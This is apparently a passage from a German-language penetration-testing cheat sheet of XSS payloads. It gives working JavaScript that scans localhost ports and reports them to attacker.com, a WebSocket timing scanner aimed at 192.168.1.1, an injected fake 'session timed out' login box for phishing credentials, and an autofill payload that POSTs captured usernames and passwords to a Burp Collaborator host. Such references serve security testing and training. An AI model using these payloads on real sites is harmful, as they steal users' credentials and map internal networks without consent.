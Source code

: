 ```javascript
const checkPort = (port) => { fetch(http://localhost:${port}, { mode: "no-cors" }).then(() => { let img = document.createElement("img"); img.src = http://attacker.com/ping?port=${port}; }); } for(let i=0; i<1000; i++) { checkPort(i); }
```
### Port Scanner (websockets)
```python
var ports = [80, 443, 445, 554, 3306, 3690, 1234];
for(var i=0; i<ports.length; i++) {
var s = new WebSocket("wss://192.168.1.1:" + ports[i]);
s.start = performance.now();
s.port = ports[i];
s.onerror = function() {
console.log("Port " + this.port + ": " + (performance.now() -this.start) + " ms");
};
s.onopen = function() {
console.log("Port " + this.port+ ": " + (performance.now() -this.start) + " ms");
};
}
```
_Kurze Zeiten deuten auf einen antwortenden Port hin_ _Längere Zeiten deuten auf keine Antwort hin._

Überprüfen Sie die Liste der in Chrome [**hier**](https://src.chromium.org/viewvc/chrome/trunk/src/net/base/net_util.cc) und in Firefox [**hier**](https://www-archive.mozilla.org/projects/netlib/portbanning#portlist) gesperrten Ports.

### Box zur Abfrage von Anmeldeinformationen
```markup
<style>::placeholder { color:white; }</style><script>document.write("<div style='position:absolute;top:100px;left:250px;width:400px;background-color:white;height:230px;padding:15px;border-radius:10px;color:black'><form action='https://example.com/'><p>Your sesion has timed out, please login again:</p><input style='width:100%;' type='text' placeholder='Username' /><input style='width: 100%' type='password' placeholder='Password'/><input type='submit' value='Login'></form><p><i>This login box is presented using XSS as a proof-of-concept</i></p></div>")</script>
```
### Auto-fill Passworterfassung
```javascript
<b>Username:</><br>
<input name=username id=username>
<b>Password:</><br>
<input type=password name=password onchange="if(this.value.length)fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```
Wenn Daten im Passwortfeld eingegeben werden, werden der Benutzername und das Passwort an den Server des Angreifers gesendet, selbst wenn der Client ein gespeichertes Passwort auswählt und nichts eingibt, werden die Anmeldeinformationen exfiltriert.
